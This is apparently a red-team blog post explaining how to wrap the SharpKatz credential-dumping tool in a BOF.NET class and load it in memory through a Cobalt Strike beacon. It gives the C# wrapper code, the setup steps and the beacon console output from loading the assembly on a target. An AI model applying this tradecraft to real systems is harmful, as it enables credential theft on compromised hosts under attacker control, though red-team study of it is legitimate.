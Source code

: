 ```yaml
---
layout: single
title: "A look at BOF.NET, setting up for use with Cobalt Strike"
date: 2021-11-17
tags:  
  - windows
  - bof
  - red-team
  - c#
author_profile: true
---
```



## Introduction 

BOF.NET is a small native BOF object combined with the BOF.NET managed runtime that enables the development of Cobalt Strike BOFs directly in .NET. BOF.NET removes the complexity of native compilation along with the headaches of manually importing native API

Source : [https://github.com/CCob/BOF.NET](https://github.com/CCob/BOF.NET)


## Porting BOF.NET Classes to SharpKatz

While integrating the BOF.NET dll and writing the class to execute the application as a BOF file would look a little "hard" or messy I tried to keep the walkthrough as simple as possible.

Firstly you can download the DLL from the BOF.NET releases page : [https://github.com/CCob/BOF.NET/releases](https://github.com/CCob/BOF.NET/releases) or build it from the source code if you would like.

Afterwards you would want to Add the `dll` as a Reference to SharpKatz Source Code :

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof3.png)

I will go on and create a new C# Class file to add it into the SharpKatz code which will contain the BOF.NET custom class

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof4.png)

This little piece of code basically takes user's arguments and forwards them to the real program's Main() function to avoid hardcoding.

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using BOFNET;

namespace SharpKatz
{
    public class Execute : BeaconObject
    {
        public Execute(BeaconApi api) : base(api) { }
        public override void Go(string[] args)
        {
            try
            {
                // Redirect stdout to MemoryStream
                var memStream = new MemoryStream();
                var memStreamWriter = new StreamWriter(memStream);
                memStreamWriter.AutoFlush = true;
                Console.SetOut(memStreamWriter);
                Console.SetError(memStreamWriter);

                // Run main program passing original arguments
                Program.Main(args);

                // Write MemoryStream to Beacon output
                BeaconConsole.WriteLine(Encoding.ASCII.GetString(memStream.ToArray()));

            }
            catch (Exception ex)
            {
                BeaconConsole.WriteLine(String.Format("\nBOF.NET Exception: {0}.", ex));
            }
        }
    }
}
```
Make sure you have also checked the main function name on the existing .NET project (SharpKatz in my example) and that the access modifier is set to public : 

```csharp
namespace SharpKatz
{
    public class Program
    {

        public static void Main(string[] args)
```

It needs to be callable so BOF.NET can be able to forward arguments to the main function.


## Importing BOF.NET to Cobalt Strike

When all that has been set up we can go on and build the project which will output the final `SharpKatz.exe` ready to be used as a BOF file.

Use the CNA script already included in the source code of BOF.NET to load the script on cobalt strike using script manager:

![img4](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof.png)

After grabbing yourself an interactive shell against the target you could try initialising bofnet and loading the BOF file to be executed. NOTE that this tool doesnt have anything to do with AMSI or any other protection as you would have to deal with that on your own. I am using a target with no antivirus defence to show the proof of concept for the tool :

```console
beacon> bofnet_init
[*] Initializing BOFNET
[+] host called home, sent: 490145 bytes
[+] received output:
[+] BOFNET Runtime Initalized, assembly size 483328, .NET Runtime Version: 4.0.30319.42000 in AppDomain BOFNET

beacon> bofnet_load /home/pi0x73/SharpKatz.exe
[*] Attempting to load large .NET assembly /home/pi0x73/SharpKatz.exe into BOFNET
[+] host called home, sent: 740018 bytes
[+] received output:
[+] Setting up new loader with unique id kPgG3dJw
[+] Loaded assembly SharpKatz, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null successfully
[=] Assembly has been prepared with Costura|dnMerge, running embedded assembly resolver
```
